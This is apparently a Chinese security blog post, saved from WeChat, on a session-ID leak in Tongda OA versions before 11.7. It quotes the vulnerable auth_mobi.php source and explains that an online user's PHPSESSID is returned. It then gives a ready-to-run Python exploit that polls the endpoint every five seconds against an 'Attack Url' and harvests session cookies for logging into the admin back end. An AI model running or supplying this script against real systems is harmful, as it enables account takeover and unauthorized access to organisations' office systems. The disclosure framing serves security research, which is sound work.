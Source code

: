 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/llyGEBRo0t-C7xOLMDYfFQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

通达 OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION 使其可登录后台系统

**二:  漏洞影响🐇**

**通达 OA < v11.7**

**三:  漏洞复现🐋**

通达 OA v11.7 下载链接：https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe

下载后按步骤安装即可

**漏洞有关文件 **MYOA\webroot\mobile\auth_mobi.php****

```
<?php

function relogin()
{
    echo _('RELOGIN');
    exit;
}
ob_start();
include_once 'inc/session.php';
include_once 'inc/conn.php';
include_once 'inc/utility.php';
if ($isAvatar == '1' && $uid != '' && $P_VER != '') {
    $sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
    $cursor = exequery(TD::conn(), $sql);
    if ($row = mysql_fetch_array($cursor)) {
        $P = $row['SID'];
    }
}
if ($P == '') {
    $P = $_COOKIE['PHPSESSID'];
    if ($P == '') {
        relogin();
        exit;
    }
}
if (preg_match('/[^a-z0-9;]+/i', $P)) {
    echo _('非法参数');
    exit;
}
if (strpos($P, ';') !== false) {
    $MY_ARRAY = explode(';', $P);
    $P = trim($MY_ARRAY[1]);
}
session_id($P);
session_start();
session_write_close();
if ($_SESSION['LOGIN_USER_ID'] == '' || $_SESSION['LOGIN_UID'] == '') {
    relogin();
}
```

在执行的 SQL 语句中

```
$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7rq7RsCoLWtnQzN6j8VIWUt8ibuyiaMoAXHPdI2zOPpRwqKvLNwWdiaFcpEwfFoXqHEfVZeYZ86Dtqw/640?wx_fmt=png)

```
简单阅读PHP源码可以知道 此SQL语句会查询用户是否在线，如在线返回此用户 Session ID
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7rq7RsCoLWtnQzN6j8VIWUZXNr10c4aNCQiasxBJFIdYLialDLX4mLNaRyPzoVpKghB8ud8X9Pn2Vw/640?wx_fmt=png)

将返回的 Set-Cookie 中的 Cookie 参数值使用于登录 Cookie

访问目标后台 http://xxx.xxx.xxx.xxx/general/

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7rq7RsCoLWtnQzN6j8VIWU7rChAQdDjgRMh3ykZptWwA4xwHPbYZHnGNMtHs7gA3wqlS1Lib1TQnQ/640?wx_fmt=png)

当目标离线时则访问漏洞页面则会出现如下图

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7rq7RsCoLWtnQzN6j8VIWUOwwxz6GEsKMj8WVL9V07Nq5NuKudg7aRpJNUBOIBRLPKnFLWxY6TRw/640?wx_fmt=png)

```
通过此思路可以持续发包监控此页面来获取在线用户的Cookie
```

****四:  漏洞 POC🦉****

```
5秒一次测试用户是否在线
```

```
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA 11.7                                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "RELOGIN" in response.text and response.status_code == 200:
            print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))
        elif response.status_code == 200 and response.text == "":
            PHPSESSION = re.findall(r'PHPSESSID=(.*?);', str(response.headers))
            print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(PHPSESSION[0] ,time.asctime(time.localtime(time.time()))))
        else:
            print("\033[31m[x] 请求失败，目标可能不存在漏洞")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    while True:
        POC_1(target_url)
        time.sleep(5)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7rq7RsCoLWtnQzN6j8VIWUqtCQfDsuzMRVlxKsZAHbibLxdsznicgnas3uhxv4sPtd7wCamibFB6dQw/640?wx_fmt=png)

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 别忘了 Github 下载完给个小星星⭐

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6wnKTQvK0n8sFOQEEFQro75IHato7k7WJakCwObVtic8kOiagRSTylHIhHxg4DVKOhBFDazKkCMgvw/640?wx_fmt=png)